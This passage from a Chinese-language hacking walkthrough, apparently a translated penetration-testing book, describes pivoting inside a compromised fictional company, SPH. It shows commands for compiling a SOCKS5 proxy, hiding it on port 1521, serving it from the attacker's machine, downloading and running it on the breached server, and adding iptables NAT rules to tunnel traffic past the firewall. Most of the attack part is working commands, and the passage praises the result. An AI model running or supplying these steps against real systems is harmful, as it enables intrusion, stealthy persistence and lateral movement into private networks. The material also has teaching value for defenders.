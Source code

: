 ```text
frontGun$ wget https://raw.githubusercontent.com/mfontanini/Programs- Scripts/master/socks5/socks5.cpp
```

在编译之前，先将监听端口从 5555 改为一个不太明显的端口（比如 1521 端口），并对隧道连接设置账号密码。

```text
40 #ifndef SERVER_PORT
41     #define SERVER_PORT 1521
42 #endif
43 #define MAXPENDING 200
44 #define BUF_SIZE 256
45 #ifndef USERNAME
46     #define USERNAME "username"
47 #endif
48 #ifndef PASSWORD
49     #define PASSWORD "password"
50 #endif
```

![&#x4FEE;&#x6539;&#x4EE3;&#x7801;&#x4E2D;&#x7684;&#x914D;&#x7F6E;](.gitbook/assets/3.3-2.png)

在 FrontGun 服务器上编译该文件，然后启动一个轻量级的 HTTP 服务，方便一会儿从 SPH 公司的 linux 服务器上下载该程序。

```text
FrontGun$ g++ -o socks5 socks5.cpp -lpthread
FrontGun$ python -m SimpleHTTPServer 80
```

在 SPH 公司的服务器上，下载该程序，赋予可执行权限，然后运行：

```text
root@CAREER:$ wget http://FRONTGUN_IP/socks5
root@CAREER:$ chmox +x socks5 && ./socks5
```

在实现的服务器上启动了 1521 端口。现在我们建立了一条隧道，正在等待连接。然而，这台 Linux 服务器看起来位于防火墙后面，禁止了对 1521 端口的入站连接。

```text
FrontGun$ nc career.sph-assets.com 1521
(Connection timeout)
```

要想解决这个问题，我们在拿下的 Linux 服务器上创建两条本地规则，将所有来自我们 IP 的数据包都路由到 1521 端口：

```text
root@CAREER# iptables -t nat -A PREROUTING -i eth2 -p tcp -s <IP_FrontGun>   --dport 80 -j DNAT --to-destination webserver02:1521
root@CAREER# iptables -t nat -A POSTROUTING -d webserver02 -o eth1 -j MASQUERADE
```

SPH 公司的这台 linux 服务器每次收到我们的 FrontGun 服务器 IP 发来的对 80 端口请求的数据包时，都会将其转发到 1521 端口。 Socks 代理将会解析我们的请求，然后根据我们的要求访问指定的内部服务器……干得漂亮！

